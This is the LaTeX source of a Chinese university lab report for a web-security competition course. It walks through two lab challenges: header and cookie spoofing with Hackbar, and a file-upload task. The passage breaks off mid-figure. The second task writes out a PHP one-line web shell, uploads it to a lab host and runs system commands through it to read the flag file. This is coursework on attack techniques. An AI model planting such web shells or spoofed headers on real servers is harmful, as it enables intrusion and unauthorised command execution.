\documentclass[12pt,a4paper,UTF8]{ctexart}
\usepackage{geometry}
\geometry{left=3cm,right=3cm,top=2.5cm,bottom=2.5cm}
\usepackage{enumitem}
\usepackage{graphicx}
\usepackage{float}
\usepackage{hyperref}
\usepackage{listings}
\usepackage{xcolor}

% 代码高亮样式
\lstset{
    frame=single,
    backgroundcolor=\color{gray!5},
    basicstyle=\ttfamily\small,
    keywordstyle=\color{blue},
    stringstyle=\color{red},
    commentstyle=\color{green!60},
    breaklines=true,
    showspaces=false,
    showstringspaces=false
}

\begin{document}

\begin{center}
    \Huge \textbf{哈尔滨工业大学（深圳）} \\
    \vspace{1cm}
    \Huge \textbf{实验报告}
\end{center}

\vspace{1.5cm}

\begin{tabular}{ll}
    开课学期： & 2026年春季 \\
    课程名称： & 网络安全攻防竞赛实践 \\
    实验名称： & Web安全实验 \\
    实验时间： & 2026.4.10 \\
    学生班级： & 电气工程及其自动化1班 \\
    学生学号： & 2024312506 \\
    学生姓名： & 余泓彬 \\
\end{tabular}

\newpage

% --------------------- Web 题目1：例题-Hackbar
\section{题目1：例题-Hackbar}
\subsection{题目分析}
本题为Hackbar工具入门例题，核心考察\textbf{HTTP请求构造、GET/POST传参、自定义请求头修改}的基础操作，需完成5项任务获取flag：
\begin{enumerate}
    \item GET传参：\texttt{UwU=u}
    \item POST传参：\texttt{Luv=u}
    \item 使用admin身份
    \item 伪造本地IP（127.0.0.1）访问
    \item 伪造浏览器标识为\texttt{MoeBrowser}
\end{enumerate}

\subsection{解题步骤}
\begin{enumerate}
    \item 打开Firefox浏览器，启动Hackbar插件，加载题目URL \texttt{http://10.249.14.223:32946/}。
    \item 构造GET请求：在URL后拼接参数 \texttt{?UwU=u}；切换为POST请求，在请求体中填写参数 \texttt{Luv=u}，完成第1、2项任务。
    \item 在CUSTOM HEADERS中添加请求头 \texttt{X-Forwarded-For: 127.0.0.1}，完成第4项本地IP伪造任务。
    \item 在BROWSER HEADERS中：勾选\texttt{Cookie}并填写\texttt{admin=1}（完成第3项admin身份任务），勾选\texttt{User-Agent}并填写\texttt{MoeBrowser}（完成第5项浏览器标识任务）。
    \item 点击Execute发送构造好的请求，服务器验证通过后，5项任务全部成功，页面返回flag。
\end{enumerate}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{1.1.png}
    \caption{题目初始界面与Hackbar工具面板}
\end{figure}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.95\textwidth]{1.2.png}
    \caption{最终完整配置与任务成功界面}
\end{figure}

\subsection{最终Flag}
\begin{center}
    \Large flag\{A\_bl7E\_o1\_HaCk84\_bU7\_u\_cAN\_Ju57\_u5e\_BUrp\}
\end{center}

\newpage

% --------------------- Web 题目2：例题-文件上传
\section{题目2：例题-文件上传}
\subsection{题目分析}
本题为文件上传基础入门例题，核心考察\textbf{一句话木马构造、文件上传漏洞利用、Hackbar工具执行系统命令、目录遍历}的完整流程，通过上传可执行PHP脚本获取服务器权限，最终读取flag文件。

\subsection{解题步骤}
\begin{enumerate}
    \item 构造一句话木马文件：新建文本文件，写入PHP后门代码 \texttt{<?php eval(\$\_POST[1]);?>}，保存为 \texttt{1.php}。
    \item 上传木马文件：打开题目实例入口 \texttt{http://10.249.14.223:32947/}，选择 \texttt{1.php} 点击上传，服务器返回文件存储路径 \texttt{/var/www/html/uploads/1.php}。
    \item 访问上传路径：在浏览器中访问完整URL \texttt{http://10.249.14.223:32947/uploads/1.php}，页面为空白属正常现象（木马仅响应POST请求）。
    \item 使用Hackbar执行命令：
    \begin{itemize}
        \item 加载木马URL，勾选\texttt{POST body}，填写 \texttt{1=system('pwd');}，确认当前路径。
        \item 填写 \texttt{1=system('ls');}，列出当前目录文件。
        \item 填写 \texttt{1=system('cd .. \&\& ls');}，回到网站根目录查找flag文件。
        \item 找到flag后，填写 \texttt{1=system('cat /flag');}，读取flag内容。
    \end{itemize}
\end{enumerate}

\begin{figure}[H]
    \centering
